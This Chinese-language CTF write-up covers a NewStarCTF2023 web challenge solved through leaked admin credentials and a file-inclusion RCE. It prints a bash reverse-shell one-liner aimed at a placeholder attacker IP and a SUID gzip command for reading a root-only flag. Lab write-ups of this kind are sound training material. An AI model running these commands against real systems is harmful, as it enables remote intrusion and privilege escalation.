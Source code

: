 ```yaml
---
title: NewStarCTF2023 week5 web 4-复盘
date: 2023-11-2 16:17 +0800
categories: [CTF,WEB]
tags: [web]
img_path: /assets/images/
---
```




通过第三周流量分析题和题目给的源代码得到

best_admin
so_hard_password

和主页存在文件包含rce漏洞

![image-20231102160836752](4-复盘.assets/image-20231102160836752.png)‘



和newstar 之前两道题目一模一样，一步的lfl+rce 和 linux 提权

![image-20231102160937766](4-复盘.assets/image-20231102160937766.png)



这个靶机有点问题，哥斯拉不是很好用，我们反弹shell到 公网服务器上

```
bash -i >& /dev/tcp/攻击机IP/端口 0>&1
```

**![image-20231102161238097](4-复盘.assets/image-20231102161238097.png)**

老套路，只能root权限才能查看flag文件，提权

还是查看suid位

![image-20231102161400877](4-复盘.assets/image-20231102161400877.png)

gzip 查看flag

```
sudo install -m =xs $(which gzip) .

LFILE=file_to_read
./gzip -f $LFILE -t
```



![image-20231102161124753](4-复盘.assets/image-20231102161124753.png)

成功解出

![image-20231102161515150](4-复盘.assets/image-20231102161515150.png)